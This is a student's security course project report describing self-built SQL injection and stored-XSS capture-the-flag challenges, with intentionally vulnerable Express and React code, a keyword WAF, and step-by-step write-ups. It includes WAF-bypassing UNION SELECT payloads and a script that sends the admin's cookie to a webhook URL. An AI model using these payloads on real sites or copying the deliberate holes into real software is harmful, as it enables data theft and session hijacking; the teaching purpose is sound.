










# COMP6841 Project Deliverables

Author: Henrick Lin (z5533795)

This project focuses on web application security, specifically SQL injection (SQLi) and XSS (Cross-site scripting). It involves building four practical challenges (with hints) to demonstrate common SQLi and XSS vulnerabilities and bypass techniques. These challenges are designed for educational purposes.

## 1. Background

SQL injection (SQLi) and XSS (Cross-site scripting) remain two of the most popular and educationally valuable vulnerabilities in web application security. As core topics in web security and CTF (Capture The Flag) training platforms, they not only introduce students to the concept of input manipulation and query control but also serve as a foundation for more advanced exploitation techniques.

The purpose of this project is to allow users to interact with realistic web applications that contain exploitable SQL injection and XSS points and progress through a structured learning experience with the help of "Hints" section in each challenge.


## 2. Existing Work

Many current CTF challenges often lack guided learning elements. Challenges typically present a web page with an input field and expect the user to deduce the vulnerability and exploit it without any contextual assistance. These platforms are designed for experienced players, but for beginners or intermediate learners, this can be intimidating and unproductive.

There is a noticeable gap in challenge design that balances realism with educational clarity, such as step-by-step progression, meaningful hints. My project tries to bridge this gap by not only offering functional vulnerable services but also structuring the vulnerability progression by designing "Hints" section.

## 3. My Implementation

This project includes the design and development of three challenges (basic SQLi, advanced SQLi, and stored XSS) using **React (frontend)**, **Express.js (backend)**, and **Supabase (PostgreSQL)** as the database platform.

### 3.1 Easy SQLi

The Easy SQLi challenge simulates a basic login page vulnerable to SQL injection. It uses insecure string concatenation in SQL queries without parameterization and lacks sufficient input sanitization. This allows attackers to bypass authentication by using payloads such as `' OR 1=1--` to force a successful login.

* **Key Features**:

  * SQL logic exposed directly via insecure query concatenation.




### 3.2 Advanced SQLi

The Advanced SQLi challenge significantly increases complexity. It mimics a COMP6841 grade-checking interface, where users enter a “key” to retrieve their grades. The back-end is intentionally flawed but protected by a keyword-based WAF that attempts to block common SQL keywords like `select`, `union`, `from`, etc.

#### 3.2.1 Technical Challenges Encountered

**Evolution of Query Design for Realistic SQLi Training:**

**Initial Design (Single-Column Query):**
The backend originally used `SELECT grade FROM users WHERE key = '...'`, returning only one column (`grade`). While this allowed straightforward UNION-based injections (like `UNION SELECT table_name FROM information_schema.tables`), it oversimplified a critical exploitation step: **column count determination**.

**Enhanced Design (Two-Column Query):**
To better emulate real-world attacks, the query was updated to `SELECT id, grade FROM users WHERE key = '...'`. This forces attackers to:
1. Probe column count systematically (like `UNION SELECT NULL, NULL--`).
2. Adapt payloads to match two columns (like `UNION SELECT table_name, NULL FROM information_schema.tables`).

**Why This Matters:**  
- **Realism:** Mirrors actual SQLi workflows where attackers must reverse-engineer query structures.  
- **Pedagogy:** Teaches essential techniques like NULL placeholder usage and type matching.  
- **Defensive Awareness:** Highlights how subtle design choices (like column selection) impact exploitability.  


**WAF Design**: One major hurdle was designing a realistic WAF (Web Application Firewall) that blocks common SQL keywords without being trivially bypassable, but still allowing creative exploitation. In my implementation, I created a simple blacklist that includes both uppercase and lowercase versions of common SQL keywords (like both `"SELECT"` and `"select"`). However, the regular expression used is case-sensitive and does not cover mixed-case keywords (like `UnIoN` or `SeLEct`), so these can still bypass the filter.

Additionally, I also blocks any input containing a space character. This is implemented by checking if the input includes `" "`. As a result, attackers are forced to use alternative techniques such as comment-based or encoded whitespace (like `/**/`) to construct their payloads, further increasing the challenge difficulty and encouraging creative bypass methods.

* **Frontend Output Design**: Initially, I only returned the first query result field (like `data[0].grade`) in the frontend. This caused confusion when users were trying to extract lists of table names or columns because they were expecting to see a list of table names or columns but only saw a single value. I updated the frontend to display all returned rows using `.map()` and `JSON.stringify`.

**Code snippet of WAF filtering logic**

```javascript
const wafKeywords = [
    "SELECT",
    "FROM",
    "UNION",
    "WHERE",
    "OR",
    "AND",
    "JOIN",
    "FLAG",
    "select",
    "from",
    "union",
    "where",
    "or",
    "and",
    "join",
    "flag",
];
const wafPattern = new RegExp(`\\b(${wafKeywords.join("|")})\\b`);

if (wafPattern.test(key) || key.includes(" ")) {
    return res.status(400).json({ error: "Forbidden keyword or space detected" });
}
```


#### 3.2.2 Known Design Compromise

In real production code, keyword filtering would always be lowercase-normalized (`.toLowerCase()`), and likely done through parameterized queries altogether. However, I intentionally left this bypass open to allow intermediate learners to focus on union-based SQLi instead of jumping into `CHR()`-based injection or blind injection.

#### 3.2.3 Advanced SQLi Write-up

1. **Bypass WAF**:

First, you can try `' OR 1=1--` and you will get a message:


Then, you need to bypass the WAF.
Try `'Or/**/1=1--` and you will get:

The keyword can be bypassed using mixed-case and the space can be bypassed using `/**/`.
But we only get a grade, the flag is not exposed.

2. **Determine Column Count and Type**:

- Find Column Count:
    - Try `'UnIoN/**/SeLECT/**/null--` (1 column)
    - Try `'UnIoN/**/SeLECT/**/null,null--` (2 columns)
    - Keep adding null until no error occurs
    - And you can find that the column count is 2

- Find Column Type:
    - Replace null with values of different types:
    - 1 (integer)
    - 'a' (string)
    - true (boolean)
    - The types must match the original query's columns
    - Example: `'UnIoN/**/SeLECT/**/1,'test'--`
    - And you can find that the column type is number, string

3. **Extract Table Names**:
Use:

 `'UnIoN/**/SeLeCt/**/1,table_name/**/FrOm/**/information_schema.tables/**/WhErE/**/table_schema=current_schema()--` to get the table names:



The table `topsecrets` is very likely to contain the flag.

4. **Extract Column Names**:
Then use

`'UnIoN/**/SeLeCt/**/1,column_name/**/FrOm/**/information_schema.columns/**/WhErE/**/table_name='topsecrets'--`to get the column names:



The column `value` may contain the flag.

5. **Extract Flag**:
Finally, use
`'UnIoN/**/SeLeCt/**/1,value/**/FrOm/**/topsecrets--` to get the flag:



### 3.3 Stored XSS

At first, I want to make a simple XSS challenge. But I found that it is not easy to make a simple XSS challenge that is not easily bypassable. So I decided to make a stored XSS challenge.

This is the first version of the backend code.

```javascript
// Admin panel for XSS challenge (simulated admin viewing)
app.get("/admin/messages/:id", async (req, res) => {
  const { id } = req.params;
  const sql = `SELECT id, name, message, created_at FROM messages WHERE id = ${id}`;

  try {
    const result = await client.query(sql);

    res.cookie("adminFlag", "CUINSPACE{yoU_ARe_GEnius}", {
      httpOnly: false, // so it can be accessed by JavaScript
      secure: false, // should be true if https
      sameSite: "lax", // More secure than 'none' but less strict than 'strict' which blocks all cross-site requests
    });

    // Return a simple HTML page, directly inserting the message (vulnerable to XSS)
    const message = result.rows.length > 0 ? result.rows[0].message : "No message found";
    res.send(`
      <!DOCTYPE html>
      <html>
      <head>
        <title>Admin Message View</title>
      </head>
      <body>
        <h1>Hi, admin. Please view the message below:</h1>
        <div>${message}</div>
      </body>
      </html>
    `);
  } catch (err) {
    console.error("Error fetching admin messages:", err);
    res.status(500).send("Failed to fetch messages");
  }
});

// Simulate admin bot visiting reported messages
app.post("/report-message", async (req, res) => {
  const { messageId, reason } = req.body;

  console.log(`Message ${messageId} reported for: ${reason}`);

  // Immediately respond to the user
  res.json({
    success: true,
    message: "Message reported successfully. An admin will review it shortly.",
  });

  // Simulate admin bot delay and then visit admin panel
  setTimeout(async () => {
    try {
      console.log(`Admin bot is reviewing message ${messageId}...`);

      const axios = require("axios");

      try {
        const response = await axios.get(`http://localhost:1314/admin/messages/${messageId}`, {
          headers: {
            Cookie: "adminSession=admin_session_token",
          },
        });

        console.log(response.data);
      } catch (adminError) {
        console.error("Admin bot failed to access admin panel:", adminError.message);
      }
    } catch (err) {
      console.error("Admin bot error:", err);
    }
  }, 2000);
});
```

XSS cannot be triggered by making a server-side HTTP request (like using axios or curl) because these tools only fetch the raw HTML. They do not parse or execute any js in the page.
XSS attacks require a real browser to load the page and run the injected JavaScript code.
Only browsers (or browser automation tools like Puppeteer) will actually execute the script and trigger the XSS payload.
So, server-side requests will never execute the attacker's js. So I need to use a real browser to simulate the admin viewing:
Here is my updated report-message route:

```javascript
app.get("/admin/messages/:id", async (req, res) => {
  const { id } = req.params;
  const sql = `SELECT id, name, message, created_at FROM messages WHERE id = ${id}`;

  try {
    const result = await client.query(sql);

    res.cookie("adminFlag", "CUINSPACE{yoU_ARe_GEnius}", {
      httpOnly: false, // so it can be accessed by JavaScript
      secure: false, // should be true if https
      sameSite: "lax", // More secure than 'none' but less strict than 'strict' which blocks all cross-site requests
    });

    // Return a simple HTML page, directly inserting the message (vulnerable to XSS)
    const message = result.rows.length > 0 ? result.rows[0].message : "No message found";
    res.send(`
      <!DOCTYPE html>
      <html>
      <head>
        <title>Admin Message View</title>
      </head>
      <body>
        <h1>Hi, admin. Please view the message below:</h1>
        <div>${message}</div>
      </body>
      </html>
    `);
  } catch (err) {
    console.error("Error fetching admin messages:", err);
    res.status(500).send("Failed to fetch messages");
  }
});

app.post("/report-message", async (req, res) => {
  const { messageId, reason } = req.body;

  console.log(`Message ${messageId} reported for: ${reason}`);

  res.json({
    success: true,
    message: "Message reported successfully. An admin will review it shortly.",
  });

  // Simulate admin viewing with real browser
  setTimeout(async () => {
    try {
      console.log(`Admin bot is reviewing message ${messageId}...`);

      // Launch headless browser to simulate admin viewing
      const browser = await puppeteer.launch({
        headless: false,
        defaultViewport: null,
        executablePath: "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome", // local path to chrome
      });
      const page = await browser.newPage();

      await page.goto(`http://localhost:1314/admin/messages/${messageId}`);

      await page.evaluate(() => {
        document.cookie = "adminSession=admin_session_token";
      });

      // Wait for any scripts to execute
      await new Promise((resolve) => setTimeout(resolve, 10000));

      console.log("Admin bot finished reviewing messages");

      await browser.close();
    } catch (err) {
      console.error("Admin bot error:", err);
    }
  }, 2000);
});
```

Here is how the frontend renders the messages:

```javascript
<Card variant="outlined" sx={{ width: "100%" }}>
    <CardContent>
    <Typography level="h3" sx={{ mb: 3 }}>
        My Messages
    </Typography>

    <Button onClick={handleClearMessages}>Clear Messages</Button>

    {messages.length === 0 ? (
        <Typography level="body-lg" color="neutral" sx={{ textAlign: "center", py: 4 }}>
        No messages yet.
        </Typography>
    ) : (
        <Box sx={{ display: "flex", flexDirection: "column", gap: 2 }}>
        {messages.map((msg) => (
            <Card key={msg.id} variant="soft" size="sm">
            <CardContent>
                <Box
                sx={{
                    display: "flex",
                    justifyContent: "space-between",
                    alignItems: "start",
                    mb: 1,
                }}
                >
                <Typography level="title-sm" color="primary">
                    {msg.name}
                </Typography>
                <Box sx={{ display: "flex", alignItems: "center", gap: 1 }}>
                    <Typography level="body-xs" color="neutral">
                    {new Date(msg.created_at).toLocaleString()}
                    </Typography>
                    <IconButton
                    size="sm"
                    variant="plain"
                    color="danger"
                    onClick={() => openReportModal(msg.id)}
                    title="Report this message"
                    >
                    Report this message
                    </IconButton>
                </Box>
                </Box>
                {/* Intentionally vulnerable: rendering raw HTML using plain div */}
                <div
                    style={{
                        fontSize: "14px",
                        lineHeight: 1.5,
                        wordWrap: "break-word",
                    }}
                    dangerouslySetInnerHTML={{ __html: msg.message }}
                />
            </CardContent>
            </Card>
        ))}
        </Box>
    )}
    </CardContent>
</Card>
```

To let the payload like `` be executed, I intentionally used `dangerouslySetInnerHTML` in a div to render the message.

I found that `<script>alert(1)</script>` will not be executed, but `` will be executed. This is because `<script>` tag will not be executed if we use `dangerouslySetInnerHTML` to render the message. (Instead, it will be executed if we use `innerHTML` to render the message.)

However, in the api that simulates admin viewing messages, I used:
```javascript
res.send(`
    <!DOCTYPE html>
    <html>
    <head>
    <title>Admin Message View</title>
    </head>
    <body>
    <h1>Hi, admin. Please view the message below:</h1>
    <div>${message}</div>
    </body>
    </html>
`);
```
to render the message for admin. So in this case, the `<script>` tag will be executed.

For this interesting behavior, there is an issue someone reported in react repo: [https://github.com/facebook/react/issues/20446](https://github.com/facebook/react/issues/20446)

#### XSS Write-up

1. **Explore the vulnerability**:

- Try to use some html tags to see what will happen:
    - `<b>bold</b>`
    - `<i>italic</i>`
    - `<u>underlined</u>`



2. **Test script tag**:

Try to use `<script>alert(1)</script>`, but nothing happens and the message is not rendered.

3. **Test img tag**:

Try to use ``, and the alert is triggered.



4. **Stealing Cookies**:

The "Report this message" button can report the message to the admin.

We need to capture the admin's session when they view our message.

The `document.cookie` property contains all cookies for the current page
The `document.location="https://example.com?data=xxx"` can redirect the browser to the example.com while sending data

So we can use `<script>document.location="https://example.com?data=" + document.cookie</script>` to steal the admin's cookie.

First we go to https://webhook.site/ and get our webhook url.
Then we construct the payload:

```javascript
<script>document.location = "https://webhook.site/your_webhook_id?cookie=" + document.cookie</script>
```

Then we report the message and check our webhook.

After a while, we can see the flag in our webhook!



### 3.4 Deployment

I first deployed my frontend using Vercel and mapped it to my own subdomain `ctf.cuinspace.tech`. Later, I deployed the backend on an AWS EC2 instance.

Initially, I accessed the backend using a raw IP address over HTTP, but since the frontend was served over HTTPS, all API requests were blocked due to mixed content restrictions.

To solve this, I learned how to set up Nginx on the EC2 server to reverse proxy requests through a proper domain (`api.cuinspace.tech`), and I used Certbot to obtain and configure a valid SSL certificate.

Another key challenge was running Puppeteer on the EC2 instance to simulate an admin viewing messages. Since EC2 is a headless server with no GUI, I had to launch Puppeteer with `--no-sandbox` and set `headless: true`. This ensures Chromium can run in environments without GUI and avoids errors like "Missing X server or $DISPLAY" that occur in restricted Linux environments.


## 4. Findings and Reflections

### What I Learned

1. **SQL Injection Challenges**:
   - Advanced SQLi:
     - I learned many tricks to bypass it the keywords and space filter in: [https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF).
     - I learned the importance of column count determination and type matching in UNION-based injections.
     - I learned that `CHR()`-based injection can bypass the filter that blocks mixed-case keywords.

2. **Cross-Site Scripting (XSS) Challenges**:
   - Stored XSS:
     - I learned the limitations of server-side HTTP requests in triggering XSS and the necessity of using real browsers (like Puppeteer) to simulate admin interactions.
     - Learned about the behavior of `dangerouslySetInnerHTML` in React and why certain payloads (like ``) execute while others (like `<script>`) do not.
   - Real-World Simulation:
     - I recognized the importance of simulating real-world scenarios, such as admin bots reviewing reported messages, to make challenges more engaging and educational.

3. **Deployment and Infrastructure**:
   - Frontend-Backend Integration:
     - I gained hands-on experience deploying a frontend (Vercel) and backend (AWS EC2) separately, and the challenges of mixed content restrictions when combining HTTP and HTTPS.
   - Nginx and SSL:
     - I learned how to configure Nginx as a reverse proxy and use Certbot to secure the backend with HTTPS, ensuring seamless communication between frontend and backend.
   - Headless Environments:
     - I understood the challenges of running puppeteer on headless servers (like EC2) and the need to use `--no-sandbox` and `headless: true`.

4. **Educational Design**:
   - Balancing Realism and Pedagogy:
     - I realized the difficulty of designing challenges that are both realistic and educational, such as providing hints and structured progression to guide learners.

5. **Tooling and Libraries**:
   - puppeteer:
     - I mastered the use of puppeteer for browser automation, including handling cookies and simulating user interactions.

### Limitations

- The current WAF is still bypassable with techniques like `CHR()`-based payloads or blind injection timing if someone goes further.
- In the XSS challenge, there is a report button in "My Messages" page which does not make sense in a real-world application. But the report button is a way to reduce the server-side workload. If I want to make it more realistic, I can make a bot that view the message like every 30 seconds.
- The behavior of `dangerouslySetInnerHTML` (not executing the script tag) used in rendering the messages is not intuitive. This may confuse the learners. They may think they cannot use the `<script>` tag to let the admin page execute the script.
- The Hints may be too straight-forward. The balance between providing enough hints and not giving away the solution is not that good.

### Future Work

- Add a SQLi + XSS challenge.
- Refine better hints to guide the learners without giving away the solution.

## 5. Appendices
This project's github repo: [https://github.com/CUinspace233/SQLi-and-XSS-CTF](https://github.com/CUinspace233/SQLi-and-XSS-CTF)

This project's URL: [https://ctf.cuinspace.tech/](https://ctf.cuinspace.tech/) (Good Faith Policy!)

## 6. References

- SQL Injection Bypassing WAF: [https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)
- Puppeteer Documentation: [https://pptr.dev/guides/browser-management](https://pptr.dev/guides/browser-management)
- Supabase Documentation: [https://supabase.com/docs](https://supabase.com/docs)
- Express.js Documentation: [https://expressjs.com/](https://expressjs.com/), [https://expressjs.com/en/resources/middleware/cors.html](https://expressjs.com/en/resources/middleware/cors.html)
- Joy UI Documentation: [https://mui.com/joy-ui/getting-started/](https://mui.com/joy-ui/getting-started/)
- React Issue: [https://github.com/facebook/react/issues/20446](https://github.com/facebook/react/issues/20446)


